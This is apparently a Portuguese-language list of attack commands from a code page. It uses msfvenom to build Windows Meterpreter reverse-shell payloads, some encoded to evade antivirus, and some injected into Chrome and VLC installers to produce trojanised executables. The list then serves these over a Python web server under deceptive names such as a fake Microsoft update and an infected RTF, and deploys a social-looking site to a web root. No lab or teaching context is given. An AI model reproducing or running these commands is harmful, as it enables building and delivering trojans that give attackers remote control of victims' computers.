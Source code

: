 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f exe > trojan.exe


python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

sudo cp -r /caminho/para/conectasocial_advanced /var/www/html/

Get-NetAdapter -Physical | Where-Object {$_.Status -eq "Up"}
